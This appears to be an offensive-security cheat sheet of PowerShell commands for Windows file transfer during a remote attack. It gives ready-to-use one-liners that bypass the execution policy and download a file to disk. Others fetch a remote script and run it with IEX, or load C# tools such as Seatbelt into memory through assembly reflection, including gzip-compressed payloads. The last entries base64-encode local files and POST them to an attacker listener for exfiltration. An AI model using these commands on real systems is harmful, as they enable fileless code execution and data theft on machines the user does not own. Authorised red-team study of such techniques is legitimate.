 # powershell

% powershell, download

#plateform/windows #target/remote #cat/UTILS/FILE_TRANSFERT #tag/powershell 

## file transfert - download on disk

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<windows_writable_path>/<dest_file>')"
```

## file transfert - download and import script
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```
## file transfert - download csharp into memory (Assembly reflection)
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<asm_ref_bin_path><asm_ref_exe_name>.exe'); $asm = [System.Reflection.Assembly]::Load($data); 
```
= asm_ref_bin_path: windows/NetFramework_4.7_x64/
= asm_ref_exe_name: Seatbelt

## file transfert - download gziped csharp into memory (Assembly reflection)
```powershell
$compressed = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<asm_ref_bin_path><asm_ref_exe_name>.exe');$a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String($compressed));$decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress);$asm = [System.Reflection.Assembly]::Load($decompressed); 
```

## file transfert - run csharp from memory (Assembly reflection) 
```powershell
$params="<asm_ref_params>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
= asm_ref_params: -group=user -full

## file transfert - upload base64 (in-memory)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<file>' -Encoding Byte));Invoke-RestMethod -Uri http://<local_ip>:<port|80>/ -Method POST -Body $b64
```

## file transfert - upload base64 (file creation)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
certutil -encode <infile> <outfile>; $base64str = Get-Content <outfile> && Invoke-RestMethod -Uri http://<local_ip>:<port|80>/ -Method POST -Body $base64str
```